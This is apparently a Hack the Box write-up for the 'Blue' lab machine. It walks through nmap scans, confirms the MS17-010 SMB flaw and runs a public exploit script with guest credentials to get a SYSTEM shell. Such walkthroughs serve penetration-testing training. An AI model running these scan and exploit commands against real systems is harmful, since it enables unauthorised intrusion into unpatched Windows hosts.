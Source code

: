 
---
title: Hack the Box - Blue
date: 2022-08-15 19:30 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
# Blue Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.40|Blue|Windows|

## Path to Exploitation

We leverage the host's vulnerability to MS17-010 to fully compromise the host.

# Enumeration 

## Full Port Scan

```bash
nmap 10.10.10.40 -p- -oA Blue/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|135|msrpc|
|139|netbios-ssn|
|445|microsoft-ds|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```bash
nmap 10.10.10.40 -p 135,139,445,49152,49153,49154,49155,49156,49157 -sC -sV -oA Blue/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|135|msrpc|Windows RPC|
|139|netbios-ssn|Windows netbios-ssn|
|445|microsoft-ds|7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# SMB

## SMB Nmap Scan

```shell
$ nmap -p 139,445 --script=smb-vuln* 10.10.10.40 -Pn -oA nmap/smb-scan
```
```cmd
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

<mark>We see the host is vulnerable to MS17-010</mark>

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/k4u5h41/MS17-010_CVE-2017-0143) script to attack the machine.

Use the checker.py script to identify the named pipes available
```shell
$ python checker.py 10.10.10.40
```
![SMB Checker](/assets/HackTheBox/Blue/exploit-check.png "Checking Pipes")

We can try supplying the guest username to the script and seeing if we get different results.
![With Guest User](/assets/HackTheBox/Blue/modify-checker.png "With Guest User")
```shell
$ python checker.py 10.10.10.40
```
![Found Pipes](/assets/HackTheBox/Blue/found-pipes.png "Found Valid Pipes")

We can now try executing the send_and_execute.py script using the guest user.

![Modify the Exploit](/assets/HackTheBox/Blue/modify-exploit.png "Modify the Exploit")

```shell
$ python send_and_execute.py 10.10.10.40 evil.exe 445
```
![Launch Exploit](/assets/HackTheBox/Blue/exploit.png "Launch the Exploit")

We now have a shell on the machine as the SYSTEM account
![Shell on Host](/assets/HackTheBox/Blue/shell.png "SYSTEM Shell")


